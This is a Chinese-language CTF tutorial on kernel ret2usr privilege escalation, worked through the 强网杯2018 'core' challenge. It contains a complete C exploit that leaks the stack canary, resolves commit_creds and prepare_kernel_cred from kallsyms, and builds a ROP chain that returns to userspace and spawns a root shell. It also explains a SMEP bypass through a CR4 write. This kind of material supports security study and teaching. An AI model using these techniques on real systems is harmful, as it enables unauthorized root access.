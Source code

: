 # Kernel ROP ret2usr

## ret2user with no SMEP

**在【未】开启SMAP/SMEP保护的情况下**，也就是启动脚本**没有添加参数`-cpu smep`**的情况下，用户空间无法访问内核空间的数据，但是内核空间可以访问用户空间的数据。

因此ret2usr with no SMEP，也就是可以通过kernel ROP以内核的ring 0权限执行用户空间的代码以完成提权。

### 0x00 原理

通常CTF中的ret2usr还是以执行`commit_creds(prepare_kernel_cred(NULL))`进行提权为主要的攻击手法，不过相比起构造冗长的ROP chain，ret2usr只需我们要提前在用户态程序构造好对应的函数指针、获取相应函数地址后直接执行即可。

>  对于开启了`SMAP/SMEP保护`的 kernel 而言，**内核空间尝试直接访问用户空间会引起kernel panic**

也就是直接在exploit中调用

```c
void ret2user(){
	void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```

### 0x01 例题

还是拿[kernel-rop1](/pwnable/220428-kernel-rop1)中的 强网杯2018 - core 举例子

> kernel确实没多少题目

具体的题目分析不写了，相比于正常rop，ret2user也就是可以直接在用户态自己写写个函数来调用`commit_creds(prepare_kernel_cred(NULL))`指令得到root权限。

```c
//  musl-gcc ./ret2user.c --static -masm='intel' -o ./exploit_ret2user

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI 0x000b2f;
#define POP_RDX 0x0a0f49;
#define POP_RCX 0x021e53;
#define MOV_RDI_RAX_CALL_RDX 0x01aa6a;
#define SWAPGS_POPFQ 0xa012da;
#define IRETQ 0x3eb448;


// commit_creds(prepare_kernel_cred(NULL))

size_t commit_creds = NULL;
size_t prepare_kernel_cred = NULL;
size_t user_cs,user_ss,user_rflags,user_sp;
// size_t vmlinux_base = 0;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("[*] Status has been saved.\n");
}

void core_read(int fd,char *buf){
    ioctl(fd,0x6677889B,buf);
}

void set_off(int fd,size_t off){
    ioctl(fd,0x6677889C,off);
}
void core_copy_func(int fd,size_t n){
    ioctl(fd,0x6677889A,n);
}
void get_shell(){
    if(!getuid()){
        printf("ROOT NOW!");
        system("/bin/sh");
    }else{
        printf("NO ROOT");
        exit(-1);
    }
}

void ret2user(){
	void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}


int main(){
    saveStatus();
    int fd = open("/proc/core",2);
    if(fd < 0){
        printf("cannot open '/proc/core' \n");
        exit(-1);
    }
    printf("[*]Open '/proc/core' ....\n");

    //get addr
    FILE * sys_table_fd = fopen("/tmp/kallsyms","r");
    if(sys_table_fd < 0){
        printf("cannot open '/tmp/kallsyms' \n");
        exit(-1);
    }
    printf("[*]Open '/tmp/kallsyms' ....\n");
    char buf[0x50]={0};
    while(fgets(buf,0x50,sys_table_fd)){
        if(commit_creds & prepare_kernel_cred)
            break;
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&commit_creds);
            printf("[*]commit_creds addr: %p\n", commit_creds);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            printf("[*]prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
        }
    }

    /*
    [*] '/home/mark/Desktop/pwn/core/vmlinux'
    Arch:     amd64-64-little
    Version:  4.15.8
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
    commit_creds 0x9c8e0
    prepare_kernel_cred 0x09cce0
    */    

    size_t vmlinux_base = commit_creds - 0x9c8e0;
    printf("[*]vmlinux_base : %p\n",vmlinux_base);
    printf("[*]vmlinux_base : %p\n",prepare_kernel_cred - 0x09cce0);

    //get canary
    size_t canary;
    set_off(fd,64); //0x50-0x40
    char buf2[0x50]={0};
    core_read(fd,buf2);
    canary = ((size_t *)buf2)[0];
    printf("[*]Canary : %p\n",canary);

    //ROP
    size_t rop_chain[0x1000]={0};
    int i=0;
    for(;i<10;i++){
        rop_chain[i] = canary;
    }
    rop_chain[i++]=ret2user;

    // swapgs & iretq
    rop_chain[i++]=vmlinux_base + SWAPGS_POPFQ;
    rop_chain[i++]=0;
    rop_chain[i++]=vmlinux_base + IRETQ;

    // getshell
    rop_chain[i++]=(size_t)get_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;


    write(fd,rop_chain,0x100);
    core_copy_func(fd,0xffffffffffff0000 | (0x100)); // int16 == 0x300
    
    return 0;
}
```

最终提权成功

![](https://pic.imgdb.cn/item/626c089a239250f7c5cd6673.png)

## ret2usr with SMEP-BYPASS

前面提到过，当 kernel 开启 SMEP 保护时，ret2usr 这种攻击手法将会引起 kernel panic，因此若是我们仍然想要进行 ret2usr 攻击，则需要先关闭SMEP保护。

### 0x00 原理

Intel 下系统根据 CR4 控制寄存器的第 20 位标识是否开启SMEP保护（1为开启，0为关闭），**若是能够通过kernel ROP改变CR4寄存器的值便能够关闭SMEP保护**，完成SMEP-bypass，接下来就能够重新进行ret2usr。

![](https://pic.imgdb.cn/item/626c0c99239250f7c5d780fb.png)

例如，当

```
$CR4 = 0x1407f0 = 000 1 0100 0000 0111 1111 0000
```

时，smep 保护开启。而 CR4 寄存器是可以通过 mov 指令修改的，因此只需要

```
mov cr4, 0x1407e0
# 0x1407e0 = 101 0 0000 0011 1111 00000
```

即可关闭 smep 保护。

### 0x01 例题

